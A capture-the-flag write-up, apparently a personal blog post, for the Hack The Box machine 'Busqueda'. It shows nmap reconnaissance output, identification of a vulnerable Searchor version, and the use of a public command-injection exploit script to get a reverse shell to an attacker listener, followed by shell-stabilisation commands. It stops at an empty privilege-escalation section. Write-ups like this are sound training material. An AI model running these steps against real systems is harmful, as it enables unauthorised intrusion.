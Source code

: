 # Box: Busqueda
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.78.165 -v -p- -T4```

```
Nmap scan report for searcher.htb (10.129.78.185)
Host is up (0.34s latency).
Not shown: 65369 closed tcp ports (reset), 164 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-title: Searcher
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/30%OT=22%CT=1%CU=43868%PV=Y%DS=2%DC=T%G=Y%TM=653FBF
OS:10%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=10A%TI=Z
OS:%CI=Z%II=I%TS=A)SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)OPS(O1=M53CST11N
OS:W7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CS
OS:T11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=4
OS:0%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(
OS:R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=
OS:)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%
OS:UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 11.571 days (since Thu Oct 19 01:53:13 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 587/tcp)
HOP RTT       ADDRESS
1   446.93 ms 10.10.14.1
2   447.06 ms searcher.htb (10.129.78.185)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 30 15:34:56 2023 -- 1 IP address (1 host up) scanned in 1764.04 seconds
```
From our nmap scan we have 2 open ports, port 22 which runs ssh and port 80 which runs http. Our enumeration today will be focused on port 80



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5c2b168c-3cd6-4abe-a7d9-204d873c455b)

We'll add this domain name to our ```/etc/hosts``` file

Now lets navigate back to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b92cb0f7-c047-4dee-bf25-13d998954717)

Scrolling down,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/25743998-e3bb-4668-8613-56f1ceab850e)

Take a look at the version of ```searchor``` running on this machine

Checking google

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a3473cb1-52f6-447f-965e-7ab16893e543)

Lets exploit this



# Exploitation

We will be using this github [exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/blob/main/exploit.sh)

Download this to your machine and make it executable

command:```chmod +x exploit.sh```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/busqueda]
└─$ chmod +x exploit.sh 
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/busqueda]
└─$ ls -l exploit.sh
-rwxr-xr-x 1 bl4ck4non bl4ck4non 866 Oct 30 15:33 exploit.sh
```
To run the exploit script

command:```./exploit.sh searcher.htb LHOST LPORT```

Ensure you set your netcat listener before running this command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/1f6c0a12-af2d-4f8f-82cd-a7dd7df7a35f)

Nice, we spawned a reverse shell. To stabilize this shell

```
python3 -c “import pty;pty.spawn(‘/bin/bash’)”
ctrl + z (to background)
stty raw -echo && fg
export TERM=xterm
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5d827207-27d9-44a1-8ccf-07a82c0d79d1)

Lets go ahead to escalate our privileges



# Privilege Escalation































